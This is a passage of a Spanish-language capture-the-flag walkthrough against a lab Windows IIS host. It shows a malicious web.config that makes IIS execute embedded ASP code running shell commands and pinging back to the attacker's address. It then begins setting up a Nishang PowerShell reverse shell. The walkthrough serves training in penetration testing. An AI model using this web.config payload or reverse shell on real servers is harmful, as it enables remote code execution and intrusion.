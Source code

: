 Lo subimos en la red y controlamos en la routa `http://10.10.10.93/uploadedFiles/web.config`

Aqui vemos que el codigo se a ejecutado. Ahora necessitamos ver si podemos ejecutar codigo a nivel de systema.

Buscamos en la pagina [Hacking Dream](https://www.hackingdream.net/search?q=reverse) un one linear que nos permite entablar una reverse
shell con ASP.

La añadimos al web.config y la modificamos.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("ping 10.10.14.7")
output = cte.StdOut.Readall()
Response.write(output)
%>
-->
```

Nos ponemos en escucha de trazas ICMP `tcpdump -i tun0 icmp -n` y enviamos el fichero nuevamente y vemos que recibimos la traza ICMP.
## Vuln exploit & Gaining Access {-}

### Ganando accesso con un web.config {-}

Aqui trabajaremos con Nishang porque nos queremos entablar una PowerShell.

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```
